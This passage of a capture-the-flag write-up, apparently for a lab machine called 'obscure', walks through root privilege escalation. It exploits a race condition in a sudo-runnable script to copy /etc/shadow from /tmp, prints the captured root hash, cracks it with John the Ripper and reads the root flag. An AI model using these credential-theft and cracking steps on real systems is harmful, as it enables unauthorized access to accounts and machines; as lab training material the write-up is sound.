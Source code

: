 ## Root

Now that we are logged in as Robert, we are able to view the BetterSSH directory that we couldn't before. It contains `BetterSSH.py`. Unfortunately, it doesn't work without root permissions. However, we are actually able to run it with sudo.

```
$ sudo -l
...
User robert may run the following commands on obscure:
    (ALL) NOPASSWD: /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
```

The script is opening `/etc/shadow` and reading from it and manipulating the data. A potential vulnerability in the script is that it sleeps for 0.1 seconds immediately after writing the file to `/tmp/SSH`. If we have a cleverly constructed command running in the background, we can grab the file before it is deleted almost immediately after without having to know the actual credentials.

```python
with open('/tmp/SSH/'+path, 'w') as f:
    f.write(passwordFile)
time.sleep(.1)
```

In the background we run:

```
seq 10000 | xargs -I -- sh -c 'cp /tmp/SSH/* ~ 2>/dev/null'
```

This will repeatedly try to copy our file from `/tmp/ssh` into the home directory. During the 0.1 second pause, we will be able to successfully copy it. Now we will run the script:

```
$ sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
Enter username: robert
Enter password: anything
Incorrect pass
```

The script failed but that doesn't matter because we have copied the shadow file into the home directory! Now we can crack the root password, switch to root user, and get the flag.

```
# cat 1ohAuD3b
root
$6$riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1
18226
0
99999
7
...
# echo root:$6$riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1:18226:0:99999:7::: > hash.txt
# john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
...
mercedes         (root)
...
```

```
$ su root
Password: 
root@obscure:/home/robert# cat /root/root.txt 
512fd4429f33a113a44d5acde23609e3
```
